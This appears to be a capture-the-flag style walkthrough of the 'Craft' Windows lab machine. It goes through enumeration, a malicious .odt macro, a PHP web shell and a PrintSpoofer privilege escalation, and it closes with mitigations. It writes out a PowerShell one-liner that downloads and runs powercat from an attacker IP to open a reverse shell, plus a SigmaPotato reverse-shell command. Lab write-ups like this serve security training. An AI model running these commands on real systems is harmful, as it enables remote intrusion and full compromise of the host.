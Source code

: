 ```yaml
---
title: Craft
date: 2025-06-19
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Windows, .odt-macro, LibreOffice-macro, SeImpersonatePrivilege-privesc, PrintSpoofer] 
image: pg-logo.png
media_subpath: /assets/img/posts/2025-06-19-craft/
---
```


## Introduction

In this walkthrough, I tackled the **Craft** intermediate Windows machine. Port 80 revealed a file upload feature that accepted `.odt` documents. I crafted a malicious macro and uploaded it, which eventually triggered and granted a reverse shell as a local user. From there, I uploaded a **PHP reverse shell** to a web-accessible directory and accessed it via browser, gaining access as the `apache` user. This user possessed the `SeImpersonatePrivilege`, which I exploited using **PrintSpoofer**, ultimately obtaining a shell as `NT AUTHORITY\SYSTEM`.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open -Pn
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP -Pn
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open -Pn
```

## Services

## Web

### Port 80

Version: Apache httpd 2.4.48

Add the domain to `/etc/hosts` file:

![image.png](image%202.png)

```bash
gobuster dir -u http://craft.offsec/ -w /usr/share/wordlists/dirb/common.txt -t 30 -b 404,403,400 -x .php
```

![image.png](image%203.png)

**Vhost Fuzzing**

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://craft.offsec/ -H 'Host: FUZZ.craft.offsec' -fs 9635
```

![image.png](image%204.png)

We can only submit `odt` files:

![image.png](image%205.png)

Following this [post](https://medium.com/@akshay__0/initial-access-via-malicious-odt-macro-ac7f5d15796d) I created an `.odt` document and uploaded it.

We can inject reverse shell in `odt` macros.

```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.191/powercat.ps1');powercat -c 192.168.45.191 -p 4242 -e cmd"
```

![image.png](image%206.png)

You can also use [this](https://github.com/jotyGill/macro-generator)  to generate macro code, and [this one](https://github.com/0bfxgh0st/MMG-LO) to create full file with macros automatically.

I am using `cmd /c` before the command as LibreOffice Basic (or VBScript, depending on the environment) may not handle complex shell commands properly unless wrapped in `cmd /c`, especially with parameters like `-enc` which expects to be interpreted in the context of a full command line.

![image.png](image%207.png)

![image.png](image%208.png)

![image.png](image%209.png)

Now I have a shell.

## Shell as thecybergeek

From the early enumeration we remember there was uploads directory on the server which we can list from browser:

![image.png](image%2010.png)

As we also have the user `apache`:

![image.png](image%2011.png)

I am gonna try to get a reverse shell as `apache` too. Most probably web server is run by apache user, and it could have additional privileges that we can leverage. As server executes `.php` files I am gonna put reverse shell PHP file under `uploads` directory.

## Shell as Apache

Now we are `apache` user.

![image.png](image%2012.png)

![image.png](image%2013.png)

As you can see now we have powerfull `SeImpersonatePrivilege`. I am gonna abuse this privilege using [`SigmaPotato.exe`](https://github.com/tylerdotrar/SigmaPotato.)

```powershell
.\SigmaPotato.exe --revshell 192.168.45.159 4445
```

![image.png](image%2014.png)

It didn’t work for some reason, I am gonna use old [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) method.

```powershell
.\PrintSpoofer.exe -i -c cmd
```

![image.png](image%2015.png)

## Mitigation

- Disable or sandbox **macro execution** in office documents uploaded via web interfaces.
- Implement **file content inspection and AV scanning** on uploaded files.
- Restrict **web server write permissions** and monitor for unauthorized scripts.
- Avoid assigning **SeImpersonatePrivilege** to low-privileged users or services.
- Use **Application Whitelisting** and **Credential Guard** to reduce lateral movement and token impersonation risks.

